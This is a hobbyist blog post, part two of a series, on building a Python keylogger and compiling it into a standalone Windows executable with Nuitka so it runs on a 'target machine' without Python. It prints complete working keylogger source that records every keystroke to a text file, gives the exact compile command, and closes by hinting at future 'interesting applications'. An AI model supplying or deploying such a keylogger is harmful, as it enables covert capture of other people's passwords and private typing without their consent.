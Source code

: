 ```yaml
---
title: "Making a Keylogger (part 2)"
date: 2022-04-17
categories: Projects
---
```


This post is a sequel to [this one](https://blasterman.github.io/blastermans-base/projects/keylogger/) that I wrote prior on making a simple keylogger in Python. Earlier, I wrote that I would like to try out using a keylogger written in Powershell or something similar that utilizes a language a fresh Windows installation would be able to run without any extra binaries or libraries. However, thanks to David Bombal and his video, I’ve discovered that there is a way of merging both writing a keylogging script in Python AND allowing said script to run on a Windows machine that doesn’t have Python installed.

In the description for his video, David has a link to a pdf he made that outlines the step-by-step process he took to create an executable of a Python keylogger. It can be found at the following link:

[https://www.dropbox.com/s/tb0w3b02j3l9rid/Installing%20Nuitka.pdf?dl=0](https://www.dropbox.com/s/tb0w3b02j3l9rid/Installing%20Nuitka.pdf?dl=0)

***
The first order of business is to install Nuitka, the program that will convert my Python script to a Windows executable. Since I already have Python on my computer, I can use *pip* to install the correct version of Nuitka for the version of Python I have using `python -m pip install -U nuitka`.

![nuitka install](/blastermans-base/assets/images/projects/keylogger2/nuitka-install.png)

Great! Now that it’s installed, let’s make sure it works:

![nuitka version](/blastermans-base/assets/images/projects/keylogger2/nuitka-version.png)

👍

***
Now it’s time for the code. Comparing the code that David used against the one I found in the previous post, they’re pretty much identical save for a few missing/different parameters so it’ll function the same as the one I used last time.

```
{
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
}
```

Once saved, I’ll need to run a command in Python that instructs Nuitka to convert my `.py` file to a `.exe`. The command goes like this:

`py -m nuitka--mingw64 <filename>.py --standalone --onefile`

(Make sure to agree to both prompts in the terminal)

![nuitka file creation](/blastermans-base/assets/images/projects/keylogger2/nuitka-file-creation.png)

Done!

***

Now that the script has been compiled, it’s time to give it a go by `.\myfile.exe`. I’ll give it some time and come back later to see what the script has recorded.

...

Nah. Let’s look right now and see what I’ve got:

![captured keys](/blastermans-base/assets/images/projects/keylogger2/captured-keys.png)

Heh. It works just like the last one I used! 😁

Much thanks to David for making that video and demonstrating that there is a way to run Python scripts on Windows without needing to have the library already preinstalled on the target machine. This was a good amount of fun. Besides, who knows what interesting applications this will have in the future… 😎

